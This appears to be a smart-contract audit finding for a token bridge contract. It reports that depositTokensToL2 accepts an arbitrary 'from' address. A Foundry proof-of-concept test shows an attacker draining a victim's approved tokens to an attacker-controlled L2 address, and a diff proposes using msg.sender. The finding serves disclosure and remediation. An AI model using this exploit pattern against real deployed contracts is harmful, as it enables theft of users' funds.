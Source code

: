 # Findings

## High
### [H-1] User who who give tokens approvals may have those assest stolen
**Description:** The `L1BossBridge::depositTokensToL2()` function allows anyone to call it with a from address of any account that has approved tokens to the bridge.

As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the l2Recipient parameter).

**Proof of Code:**

As a PoC, include the following test in the `L1BossBridge.t.sol` file:
```javascript
function testCanMoveApprovedTokensFromOtherUser() public{
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);

    address attacker = makeAddr("attacker");
    address attackerInL2 = makeAddr("attackerInL2");
    vm.startPrank(attacker);
    uint256 amount = token.balanceOf(user);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attackerInL2, amount);
    tokenBridge.depositTokensToL2(user, attackerInL2, amount);
    vm.stopPrank();

    assert(token.balanceOf(address(vault)) == amount);
    assert(token.balanceOf(user) == 0);
}
```

**Recommended Mitigation:** Consider modifying the depositTokensToL2 function so that the caller cannot specify a from address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```
